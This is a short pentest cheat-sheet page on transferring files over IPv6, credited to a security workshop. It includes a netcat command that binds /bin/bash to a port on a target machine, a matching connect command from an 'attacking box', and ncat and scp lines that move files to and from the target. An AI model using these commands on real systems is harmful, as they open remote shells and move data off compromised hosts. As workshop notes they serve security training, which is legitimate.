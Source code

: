 ```yaml
---
description: >-
  Credit to Roxana Kovaci (https://twitter.com/RoxanaKovaci) and her SteelCon
  IPv6 workshop
---
```


# Transfering files

### **Netcat** 

On the target machine: 

`ncat -6 -vvlp 4433 -e /bin/bash#`  

On your attacking box: 

`ncat -6 -v fe80::37a:61b8:958f:40fb%eth0 4433` 

**Transferring files to and from your target** 

`ncat -6 -vvlp 4433 > test.txt` 

`ncat -6 -v fe80::37a:61b8:958f:40fb%eth0 4433 < test.txt` 

### SCP 

`scp test.txt user@[fe80::37a:61b8:958f:40fb%eth0]:/tmp/`  

`scp user@[fe80::12b:41a7:832a:30bf%eth0]:/tmp/test.txt /home/test/`  

### Web Server

`python -m SimpleHTTPServer6 8080`

